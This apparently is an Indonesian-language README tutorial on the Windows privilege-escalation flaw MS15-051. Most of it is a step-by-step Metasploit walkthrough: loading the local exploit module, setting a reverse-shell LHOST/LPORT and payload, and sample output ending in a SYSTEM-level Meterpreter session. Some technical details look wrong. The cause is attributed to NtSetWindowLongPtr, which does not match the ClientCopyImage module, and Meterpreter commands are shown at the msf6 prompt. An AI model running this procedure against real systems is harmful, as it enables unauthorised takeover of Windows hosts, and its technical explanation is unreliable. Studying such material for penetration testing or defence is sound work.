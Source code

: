 # MS15-051

## A. Apa itu MS15-051?

[MS15-051]() adalah kerentanan local privilege escalation (LPE) pada driver kernel Windows `win32k.sys`. Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`, level tertinggi dalam sistem Windows.

Eksploitasi ini memanfaatkan race condition dalam fungsi `NtSetWindowLongPtr()` yang memungkinkan manipulasi objek window di kernel secara tidak aman, sehingga memungkinkan overwrite pointer dan eksekusi kode sewenang-wenang dengan hak `SYSTEM`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2015-1701`
- **Buletin Microsoft**: `MS15-051`
- **Tanggal Rilis**: `12 Mei 2015`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS15-051`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software](https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS15-051:

   ```
   msf6 > use exploit/windows/local/ms15_051_client_copy_image
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and executing it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1992 launched.
   [*] Reflectively injecting the DLL into 1992...
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Meterpreter session 15 opened (192.168.1.42:4444 -> 192.168.1.50:49174) at 2025-05-14 16:19:31 +0700

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
